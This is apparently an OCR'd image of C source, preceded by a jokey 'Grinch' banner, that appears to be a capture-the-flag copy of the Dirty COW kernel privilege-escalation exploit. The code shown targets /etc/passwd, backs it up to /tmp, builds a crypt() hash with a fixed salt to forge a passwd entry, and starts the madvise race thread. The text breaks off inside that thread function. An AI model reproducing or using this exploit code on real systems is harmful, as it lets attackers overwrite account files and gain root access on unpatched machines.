 ```bash
/*************************************************
// HAHA! Too bad Santa! I, the Grinch, got here 
// before you did! I helped myself to some of
// the goodies here, but you can still enjoy
// some half eaten cookies and this leftover
// milk! Why dont you try and refill it yourself!
//   - Yours Truly,
//         The Grinch
//*************************************************/

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "grinch";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
```
